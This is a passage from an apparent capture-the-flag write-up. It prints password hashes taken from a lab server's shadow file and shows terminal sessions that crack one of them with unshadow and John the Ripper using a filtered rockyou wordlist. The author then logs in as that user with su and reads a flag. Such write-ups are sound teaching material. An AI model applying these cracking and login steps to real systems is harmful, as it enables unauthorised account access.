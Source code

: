 user2:$6$qfPu4xuIR9ISTBgh$qNCTqPSHZTgVDTpzNcWo3V7F.zA.Or9H/AarT0hUfgoDN85GY4BsdJQUo0lrPbrInwpuq4ekRK8jCZaJmOqrm/:18755::::::
user3:$6$1sC6bt/f5iBe6uZh$rcvkEkGW/S2qHNrk4Zczk2ose87d1orUAwNrBWasz5MzdANRurab5/tddA5Udue2PGF5B4pyab.DhIonpj1RT0:18755::::::
user4:$6$XFyZlgTT1M9G5JL3$5QdjepeWn.2Le2ahXjbuGexS3d6/Xis.zK6d0QqHLJBrvNP5QGEw.ZgFvCXgxrYiI40Exuh0VUw8kgS3Kk1AQ/:18755::::::
{% endhighlight %}

We can crack user2's password using these hashes, the /etc/passwd file, and rockyou.txt (only testing the passwords that contain 'cherry'):

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unr21-tms$ unshadow passwd shadow > crackme
yakuhito@furry-catstation:~/ctf/unr21-tms$ cat /pentest/rockyou.txt | grep cherry > passes
yakuhito@furry-catstation:~/ctf/unr21-tms$ john --wordlist=passes crackme 
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!!cherry!!       (user2)
1g 0:00:00:02 DONE (2021-06-06 18:23) 0.4926g/s 1396p/s 5584c/s 5584C/s cherry9011..!!cherry!!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
yakuhito@furry-catstation:~/ctf/unr21-tms$
{% endhighlight %}

{% highlight bash %}
www@unr21-echipe-escalation-7fbfb78995-g6jhp:/var/www/html$ su user2
su user2
Password: !!cherry!!
/bin/bash -i
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:/var/www/html$ cd ~
cd ~
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ ls -l
ls -l
total 4
-r--r----- 1 root user2 117 May 19 11:34 flag1.txt
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$ cat flag1.txt
cat flag1.txt
Here s your first flag: ctf{d6285bf0fef00f1b70cb52bdf168d2b6463d53b484bd6da7e098b3d5617bddaa}

Good luck escalating!
user2@unr21-echipe-escalation-7fbfb78995-g6jhp:~$
{% endhighlight %}

Privesc? `sudo -l`!
